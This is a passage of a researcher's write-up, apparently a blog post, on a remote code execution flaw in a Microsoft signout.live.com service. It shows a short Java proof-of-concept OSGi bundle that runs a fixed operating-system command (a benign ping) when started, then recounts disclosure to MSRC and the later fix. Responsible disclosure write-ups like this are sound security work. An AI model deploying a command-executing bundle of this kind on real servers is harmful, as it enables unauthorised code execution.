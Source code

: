 Ignoring POM files and associated boilerplate, a simple ‘command executor’ OSGi bundle was able to be implemented in as few as 18 lines of Java - and likely in less by someone who knew what they were doing :)

```Java
public class ProviderActivator implements BundleActivator {
    String staticCommand = "C:\\Windows\\System32\\ping.exe www.example.org";

    @Override
    public void start(BundleContext bundleContext) throws Exception {
        CommandLine cmdLine = CommandLine.parse(staticCommand);
        DefaultExecutor executor = new DefaultExecutor();

        try {
            executor.execute(cmdLine);
        } catch(java.io.IOException ex) {
            ex.printStackTrace();
        }
    }

    @Override
    public void stop(BundleContext bundleContext) throws Exception {
    }
}
```

**Note:** As mentioned above, no code was loaded into the Microsoft system **at any time**. The proof-of-concept code prepared as part of this exercise was compiled and provided as part of the report to Microsoft, but was never loaded into the system.

### Reporting.

This vulnerability was reported to the MSRC on the 3rd of December 2015, and was both confirmed and assigned a case manager within 24-hours. After some time and back-and-forth with the MSRC, this vulnerability was confirmed to have been resolved on the 3rd of May 2016.

Unfortunately, on the 4th of May 2016 it was confirmed by the MSRC that this report was not eligible for a monetary reward under the Microsoft Online Services Bug Bounty program as the affected domain was not explicitly listed as in-scope.

Such is life! :)

### Thanks.

I’d like to extend thanks to all of the MSRC staff who were involved in this case. Although this case took quite some time to be resolved, all of the MSRC staff encountered throughout were a pleasure to work with.

#### [Source](//www.kernelpicnic.net/2016/07/24/Microsoft-signout.live.com-Remote-Code-Execution-Write-Up.html)

<br/>
---
